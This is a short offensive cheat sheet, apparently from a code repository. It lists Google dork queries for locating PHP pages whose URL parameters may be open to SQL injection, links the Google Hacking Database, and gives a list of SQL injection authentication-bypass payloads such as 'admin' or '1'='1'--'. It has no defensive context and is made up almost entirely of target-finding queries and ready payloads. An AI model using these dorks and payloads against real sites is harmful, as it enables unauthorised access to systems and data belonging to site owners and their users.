 # Google Dorks

## SQL Injection

#### Google Dorking SQLi

```bash
inurl:.php?id=
inurl:index.php?id=
inurl:buy.php?category=
inurl:article.php?ID=
inurl:pageid=
inurl:games.php?id=
inurl:page.php?file=
```

## Google Hacking Database

- [Google Hacking Database](https://www.exploit-db.com/google-hacking-database)

## SQL Injection Queries

```bash
or 1=1
or 1=1--
or 1=1#
or 1=1/*
admin' --
admin' #
admin'/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
admin'or 1=1 or ''='
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
admin') or ('1'='1
admin') or ('1'='1'--
```
